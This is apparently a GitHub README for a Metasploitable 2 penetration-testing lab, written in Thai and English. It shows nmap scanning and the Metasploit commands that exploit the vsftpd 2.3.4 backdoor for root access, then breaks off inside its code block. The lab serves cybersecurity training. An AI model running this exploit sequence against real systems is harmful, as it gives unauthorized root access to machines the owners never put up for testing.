

# 🎯 Metasploitable 2: Penetration Testing Lab

## 📌 Project Overview
โปรเจกต์นี้เป็นการจำลองการทดสอบเจาะระบบ (Penetration Testing) บนเครื่องเป้าหมาย **Metasploitable 2** ซึ่งเป็นระบบปฏิบัติการ Linux ที่ถูกออกแบบมาให้มีช่องโหว่ เพื่อใช้สำหรับการศึกษาและฝึกฝนด้าน Cybersecurity อย่างปลอดภัย

**Tools Used:**
* 💻 **Attacker Machine:** Kali Linux
* 🛡️ **Target Machine:** Metasploitable 2
* 🔫 **Framework & Tools:** Nmap, Metasploit Framework (MSF)

---

## 🗺️ Attack Flowchart


---

## 🚀 Execution Steps (ขั้นตอนการโจมตี)

### Target 1: Port 21 (FTP - vsftpd 2.3.4 Backdoor)
ช่องโหว่นี้เกิดจากซอฟต์แวร์ vsftpd เวอร์ชัน 2.3.4 มีการฝัง Backdoor เอาไว้ ทำให้แฮกเกอร์สามารถเข้าถึงสิทธิ์ root ได้ทันที
```bash
# 1. Scanning
nmap -p 21 -sV [Target_IP]

# 2. Exploitation (via Metasploit)
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
info
show options
set RHOSTS [Target_IP]
exploit

# 3. Post-Exploitation (Verify Root Access)
whoami
pwd
ls -la
